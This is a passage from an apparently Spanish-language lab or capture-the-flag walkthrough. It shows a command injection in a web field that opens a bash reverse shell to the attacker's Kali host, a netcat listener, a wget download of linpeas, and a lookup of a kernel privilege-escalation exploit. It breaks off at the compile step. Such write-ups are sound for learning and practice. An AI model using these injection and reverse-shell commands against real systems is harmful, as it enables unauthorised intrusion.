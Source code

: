 Una vez aquí nos ponemos a la escucha en nuestro kali y ejecutamos el siguiente comando para obtener una reverse Shell

```bash
#kali
nc -nlvp 4444
#En la web
192.168.66.152 ; bash -i >& /dev/tcp/192.168.66.152/4444 0>&1
```

obteniendo la Shell:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444                     
listening on [any] 4444 ...
connect to [192.168.66.152] from (UNKNOWN) [192.168.66.160] 32779
bash: no job control in this shell
bash-3.00$ whoami
apache
```

### Escalada de privilegios

Transferimos [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases) de nuestro Kali a la maquina para ver por donde podemos escalar privilegios para ello iniciamos un servidor con Python en nuestro kali:

```bash
python3 -m http.server 80
```

y con wget desde la maquina descargamos Linpeas.

```bash
wget http://192.168.66.152/linpeas.sh
```

Una vez con Linpeas en la maquina objetivo lo ejecutamos y vemos lo siguiente:

![Untitled](Untitled%209.png)

La maquina es un CentOS 4.5 con versión de Linux 2.6.9.

Buscamos en Google si existe algún exploit de escalada de privilegios con estas características y encontramos el siguiente exploit:

[https://www.exploit-db.com/exploits/9542](https://www.exploit-db.com/exploits/9542)

Lo descargamos en nuestra maquina y lo transferimos igual que hemos hecho anteriormente.

Lo compilamos
